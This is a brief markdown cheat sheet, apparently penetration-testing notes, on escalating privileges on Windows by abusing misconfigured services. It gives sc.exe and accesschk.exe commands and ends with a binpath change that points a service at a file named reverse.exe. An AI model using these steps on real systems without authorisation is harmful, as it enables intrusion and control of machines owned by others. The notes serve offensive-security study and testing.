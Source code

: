 ```yaml
---
description: >-
  Basic commands when abusing services to elevate privileges after being
  identified with a tool such as WinPEAS.
---
```


# Service Exploitation

### Basic Commands

```powershell
# Query the configuration of a service
sc.exe qc $service_name

# Query the current status of a service
sc.exe query $service_name

# Modify an option on a service
sc.exe config $service_name $option= $value

# Start and stop a service
net start/stop $service_name
```

### Accesschk.exe

#### Use [Accesschk.exe](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) to validate service permissions:

```powershell
.\accesschk.exe /accepteula -uwcqv user $service_name
```

* What we are looking for in the output is the `SERVICE_START` and `SERVICE_STOP` permissions.
* We also want to confirm that it is running under a user with higher privileges (e.g., `LocalSystem`)

### Notes

* Validate if you can start/stop the service or the machine. If you cannot then you may not be able to use it to escalate your privileges.
* Check if we can reboot the system with `whoami /priv`
* An easy way to escalate privileges utilizing a service is to modify the binaries path. The following demonstrates an example of this:

```powershell
sc config $service_name binpath= "\"C:\Windows\Tasks\reverse.exe\""
```
